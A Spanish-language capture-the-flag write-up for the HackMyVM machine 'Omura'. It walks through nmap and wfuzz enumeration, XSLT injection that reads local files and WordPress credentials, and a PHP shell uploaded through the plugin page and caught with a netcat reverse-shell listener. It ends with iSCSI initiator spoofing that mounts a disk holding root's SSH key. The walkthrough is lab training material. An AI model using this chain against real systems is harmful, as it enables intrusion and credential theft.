Red Team & Ctf Pl4yer
HackMyVm - Omura
Autor: Cromiphi

Escaneo de puertos
❯ nmap -p- -T5 -v -n 192.168.1.12
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
3260/tcp open iscsi
Escaneo de servicios
❯ nmap -sVC -v -p 22,80,3260 192.168.1.12
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
| 3072 dbf946e520816ceec72508ab2251366c (RSA)
| 256 33c09564294723dd864ee6b8073367ad (ECDSA)
|_ 256 beaa6d4243dd7dd40e0d7478c189a136 (ED25519)
80/tcp open http Apache httpd 2.4.54 ((Debian))
|_http-server-header: Apache/2.4.54 (Debian)
|_http-title: XSLT Transformation
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
3260/tcp open iscsi Synology DSM iSCSI
| iscsi-info:
| iqn.2023-02.omura.hmv:target01:
| Address: 192.168.1.12:3260,1
| Authentication: required
|_ Auth reason: Authorization failure
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Puerto 80
Saxon-B-XSLT es un motor de transformación XML que permite convertir archivos XML en diferentes formatos de salida, como HTML, PDF o incluso otros archivos XML, utilizando hojas de estilo XSLT.

Puerto 3260 protocolo iSCSI
iSCSI es un protocolo de red de área de almacenamiento que define cómo se transfieren los datos entre los sistemas host y los dispositivos de almacenamiento.
Enumeración de subdominios
Agrego el dominio omura.hmv mi archivo hosts y lanzo una enumeración de subdominios con wfuzz.
❯ wfuzz -t 100 -c --hh=795 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.omura.hmv" http://omura.hmv
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000000326: 200 127 L 1303 W 28732 Ch "wordpress"
Si navego al nuevo subdomino, veo un wordpress.

Hago fuerza bruta de directorios y extensiones con gobuster.
❯ gobuster dir -u http://wordpress.omura.hmv/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt
/wp-content (Status: 301) [Size: 331] [--> http://wordpress.omura.hmv/wp-content/]
/index.php (Status: 301) [Size: 0] [--> http://wordpress.omura.hmv/]
/wordpress (Status: 301) [Size: 330] [--> http://wordpress.omura.hmv/wordpress/]
/license.txt (Status: 200) [Size: 19915]
/wp-includes (Status: 301) [Size: 332] [--> http://wordpress.omura.hmv/wp-includes/]
/wp-login.php (Status: 200) [Size: 5473]
/wp-trackback.php (Status: 200) [Size: 135]
/wp-admin (Status: 301) [Size: 329] [--> http://wordpress.omura.hmv/wp-admin/]
/xmlrpc.php (Status: 405) [Size: 42]
/.php (Status: 403) [Size: 284]
/wp-signup.php (Status: 302) [Size: 0] [--> http://wordpress.omura.hmv/wp-login.php?action=register]
/server-status (Status: 403) [Size: 284]
Panel de login.

Después de hechar un vistazo general a hacktricks voy de nuevo al puerto 80.
https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-languaje-transformations
Archivo lfi.xsl

Archivo two.xml

Subo los archivos para realizar un LFI.

Consigo leer el archivo passwd.

Modifico el archivo lfi para ver el contenido de la carpeta wordpress.

Dentro de la carpeta wordpress veo el archivo wp-config.php.

Para leer el archivo wp-config.
https://gist.github.com/matthiaskaiser/4924336ba0bc1259d75b

Subo el nuevo archivo xsl.

No veo nada.

Pero si voy a inspeccionar código fuente encuentro unas credenciales de acceso.

Accedo a la web y me voy al apartado de plugins para subir una shell.

Aunque nos salga este error el archivo php se ha subido.

Verifico que se ha subido correctamente.

Lanzo curl para obtener la shell.
❯ curl -s http://wordpress.omura.hmv/wp-content/uploads/2023/04/shell.php
Obtengo la shell como usuario www-data.
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.16] from (UNKNOWN) [192.168.1.12] 54044
bash: cannot set terminal process group (533): Inappropriate ioctl for device
bash: no job control in this shell
www-data@omura:/var/www/wordpress/wp-content/uploads/2023/04$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Con find busco todo lo relacionado con el servicio iscsi.
www-data@omura:/uploads/2023/04$ find / -name "*iscsi*" 2>/dev/null
/var/lib/iscsi_disks
/sys/kernel/config/target/iscsi
/sys/kernel/config/target/iscsi/iqn.2023-02.omura.hmv:target01/tpgt_1/acls/iqn.2023-02.omura.hmv:node01.initiator01/fabric_statistics/iscsi_ses
Obtengo la dirección iqn.
iqn.2023-02.omura.hmv:node01.initiator01
Instalo en mi máquina la herramienta open-iscsi.
sudo apt install open-iscsi
Edito el archivo initiatorname.iscsi y le añado la dirección encontrada.
❯ sudo nano /etc/iscsi/initiatorname.iscsi
## DO NOT EDIT OR REMOVE THIS FILE!
## If you remove this file, the iSCSI daemon will not start.
## If you change the InitiatorName, existing access control lists
## may reject this initiator. The InitiatorName must be unique
## for each iSCSI initiator. Do NOT duplicate iSCSI InitiatorNames.
InitiatorName=iqn.2023-02.omura.hmv:node01.initiator01
Edito el archivo iscsi.conf y pongo el node.startup en automático.
❯ sudo nano /etc/iscsi/iscsid.conf
#*****************
# Startup settings
#*****************
# To request that the iscsi service scripts startup a session, use "automatic":
node.startup = automatic
Reinicio los servicios para que los cambios tengan efecto.
❯ sudo systemctl restart iscsid open-iscsi
Identifico el objetivo compartido.
❯ sudo iscsiadm -m discovery -t sendtargets -p 192.168.1.12
192.168.1.12:3260,1 iqn.2023-02.omura.hmv:target01
Me conecto al servicio.
❯ sudo iscsiadm -m node --login
Verifico la conexión.
❯ sudo iscsiadm -m session -o show
tcp: [1] 192.168.1.12:3260,1 iqn.2023-02.omura.hmv:target01 (non-flash)
Con fdisk veo una nueva partición creada por el servicio iscsi.
❯ sudo fdisk -l
Disk /dev/sdb: 5 MiB, 5242880 bytes, 10240 sectors
Disk model: disk01
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 8388608 bytes
Creo la carpeta omura e /tmp para montar la nueva partición.
❯ mkdir /tmp/omura
Monto la nueva partición en omura.
❯ sudo mount /dev/sdb /tmp/omura
Lanzo un ls a la carpeta omura y encuentro una llave rsa.
❯ ls /tmp/omura
id_rsa
Me conecto por ssh usando la llave rsa y obtengo el root.
❯ ssh root@192.168.1.12 -i id_rsa
root@omura:~# id
uid=0(root) gid=0(root) groupes=0(root)
Y con esto ya resolvemos la máquina, nos vemos!
Agradecimientos al sr PL4GU3 por su ayuda ;)